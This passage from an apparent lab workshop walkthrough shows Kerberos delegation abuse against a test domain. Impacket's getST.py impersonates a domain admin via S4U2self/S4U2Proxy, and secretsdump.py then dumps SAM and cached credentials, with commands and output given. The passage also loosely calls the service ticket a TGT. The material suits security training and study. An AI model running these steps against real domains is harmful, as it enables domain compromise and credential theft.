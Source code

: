 Please keep in mind that our attacker machine is not domain joined, and we did not set the DNS server to point to the domain controller. Since Kerberos needs FQDN instead of ip address, we will need to either :
- set the DNS server in our ethernet config
- or change /etc/hosts adding records for the victim and DC addresses using FQDN as you can see below.
  
```
jean@attacker:~/workshop/PetitPotam$ cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	attacker
10.0.0.2        victim.ntlmlab.local
10.0.0.10	srv01.ntlmlab.local
10.0.0.100	ntlmlab.local
```
We can now lauch the command:
```
getST.py -spn cifs/victim.ntlmlab.local 'ntlmlab.local/XIWARFUV$:7$gtW2be-1<bhPx' -impersonate domainadmin
```
Lets analyze the parameters given:
- spn: Specifies the Service Principal Name (SPN) for which the service ticket is requested, in this case cifs/victim.ntlmlab.local the file service on the target machine victim.ntlmlab.local
- 'ntlmlab.local/XIWARFUV$:7$gtW2be-1<bhPx': The account requesting the service ticket and its (known) password separated by colon (:)
- impersonate domainadmin: The user that XIWARFUV$ wants to impersonate is "domainadmin" a high-privilege account

The output is:
```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating domainadmin
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in domainadmin.ccache
```
The TGT ticket issued for the domainadmin user to use only on the victim machine is saved on disk in the folder we're using at the moment. We need to import it on our "KRB5CCNAME" environment variable to use it for kerberos authentication.
```
export KRB5CCNAME=domainadmin.ccache
```
Now that the TGT is imported, we can use any tool impersonating a domain admin, in the following example we use secretsdump to dump SAM and cached credentials on the machine.
```
secretsdump.py ntlmlab.local/domainadmin@victim.ntlmlab.local -k -no-pass
```
The execution from getST.py is shown in the following screenshot, where you can also see that using an expired ticket gave the KDC_ERR_PREAUTH_FAILED error.
